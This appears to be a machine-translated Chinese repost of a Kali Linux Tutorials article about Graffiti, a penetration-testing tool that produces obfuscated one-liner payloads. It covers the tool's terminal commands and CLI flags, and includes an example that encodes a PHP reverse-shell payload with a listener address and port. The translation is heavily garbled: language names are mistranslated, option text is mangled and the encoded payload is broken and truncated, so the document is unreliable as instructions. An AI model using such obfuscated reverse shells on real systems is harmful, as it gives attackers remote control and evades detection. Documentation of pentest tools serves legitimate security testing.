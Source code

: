 # Graffiti:一个工具，用于生成模糊的 One Liners，以帮助进行渗透测试

> 原文：<https://kalilinuxtutorials.com/graffiti/>

[![Graffiti : A Tool To Generate Obfuscated One Liners To Aid In Penetration Testing](img/fbc4d72e39f52e4bd2c1a04833e6d4fa.png "Graffiti : A Tool To Generate Obfuscated One Liners To Aid In Penetration Testing")](https://3.bp.blogspot.com/-Q1MZJotjTc4/XObcEIXJPFI/AAAAAAAAAdk/AVxDVjUgNOQY6rVkgWQYTEjsC60BwRhSACLcBGAs/s1600/Penetration%2BTesting%25281%2529.png)

Graffiti 是一种工具，用于生成混淆的单行程序，以帮助进行渗透测试。Graffiti 接受以下编码语言:

*   计算机编程语言
*   Perl 语言
*   一批
*   Powershell
*   服务器端编程语言（Professional Hypertext Preprocessor 的缩写）
*   尝试

它还将接受当前不在列表中的语言，并将 oneliner 存储到数据库中。

**也可阅读-[Bandit:旨在发现 Python 代码中常见安全问题的工具](https://kalilinuxtutorials.com/bandit-security-issues/)**

**特性**

Graffiti 配备了一个数据库，可以将每个编码的有效载荷插入其中，以便最终用户可以查看已经创建的有效载荷以供将来使用。可以使用以下技术对有效载荷进行编码:

*   异或运算
*   Base64
*   十六进制
*   ROT13
*   生的

涂鸦的一些特征包括:

*   终端接入，能够运行外部命令
*   能够创建自己的有效负载 JSON 文件
*   能够查看数据库中缓存的有效负载
*   能够在内存中运行数据库以便快速删除
*   终端历史和终端历史的保存
*   终端内部的自动制表符补全
*   能够安全地擦除历史文件和数据库文件
*   多种编码技术如上所述

**用法**

Graffiti 有一个内置的终端，当你没有给程序传递标志时，它会自动进入终端。终端拥有历史记录、运行外部命令的能力以及自己的内部命令。为了获得帮助，你必须键入`help`或`?`:

```
no arguments have been passed, dropping into terminal type `help/?` to get help, all commands that sit inside of `/bin` are available in the terminal
root@graffiti:~/graffiti# ?

 Command                                  Description
---------                                --------------
 help/?                                  Show this help
 external                                List available external commands
 cached                                  Display all payloads that are already in the database
 list/show                               List all available payloads
 search <phrase>                         Search for a specific payload
 use <payload> <coder>                   Use this payload and encode it using a specified coder
 info <payload>                          Get information on a specified payload
 check                                   Check for updates
 history                                 Display command history
 exit/quit                               Exit the terminal and running session
 encode <script-type> <coder>            Encode a provided payload

root@graffiti:~/graffiti# help

 Command                                  Description
---------                                --------------
 help/?                                  Show this help
 external                                List available external commands
 cached                                  Display all payloads that are already in the database
 list/show                               List all available payloads
 search <phrase>                         Search for a specific payload
 use <payload> <coder>                   Use this payload and encode it using a specified coder
 info <payload>                          Get information on a specified payload
 check                                   Check for updates
 history                                 Display command history
 exit/quit                               Exit the terminal and running session
 encode <script-type> <coder>            Encode a provided payload

```

Graffiti 还提供了命令行参数，当您需要快速编码有效载荷时:

**用法:graffiti . py[-H][-c CODEC][-P PAYLOAD]
[–创建有效载荷脚本类型有效载荷类型描述 OS]
[-l]
[-P[有效载荷[脚本类型，有效载荷类型，描述…]]]
[-lH 监听地址] [-lP 监听端口][-u URL][-vC]
[-H][-W][–内存] [-mC 命令[命令…]]

可选参数:【参数 –PAYLOAD PAYLOAD 传递要使用的有效负载的路径(****default = None)
–创建有效负载脚本类型有效负载类型描述 OS
创建有效负载文件并将其存储在
中。 /etc/payloads(*****default = None)-l，–list 按路径列出所有可用的有效负载(*****default = False)
-P[PAYLOAD[SCRIPT-TYPE，PAYLOAD-TYPE，DESCRIPTION …]]，–personal-PAYLOAD[PAYLOAD[SCRIPT-TYPE，PAYLOAD-TYPE，DESCRIPTION…]]]
传递您自己的个人有效负载以用于编码
(*****default = None)-lH listing-ADDRESS，–lhost listing –lport LISTENING-PORT
传递一个监听端口以用于有效负载(如果
需要的话)(** ***默认=无)-u URL，–URL URL 如果有效负载需要的话传递一个 URL(*****默认=无)
-vC，–view-cached 查看已经存在于
数据库中的缓存数据
-H，–no-history 不存储命令历史记录(** ***默认=True –wipe 擦除数据库和历史(*** **默认= False)
–memory 将数据库初始化成内存而不是. db
文件(** ***默认= False)–mC COMMAND【COMMAND…】,–more-commands COMMAND【COMMAND…】传递更多的外部命令，这将允许它们被访问终端内部的命令必须在你的路径中(*** **默认=None)***

对有效载荷进行编码很简单，如下所示:

**根@涂鸦:~/graffiti# python 涂鸦. py-c base 64-p/Linux/PHP/socket _ reverse . JSON-lh127 . 0 . 0 . 1-LP 9065
委托有效负载:
PHP-r ' exec(base 64 _ decode(" jhnvy 2s 9 znvy 2 tvcgvukcixmj cuc 4 wljeilkwnjupo**

**安装**

在任何 Linux、Mac 或 Windows 系统上，Graffiti 都应该开箱即用，不需要安装任何外部软件包。如果您想将 Graffiti 作为可执行文件安装到您的系统上(您必须运行 Linux 或 Mac 才能成功运行)，您只需做以下事情:

**。/install.sh**

这将安装涂鸦到您的系统，并允许您从任何地方运行它。

**演示**

[https://player.vimeo.com/video/303548362?dnt=1&app_id=122963](https://player.vimeo.com/video/303548362?dnt=1&app_id=122963)

[**Download**](https://github.com/Ekultek/Graffiti)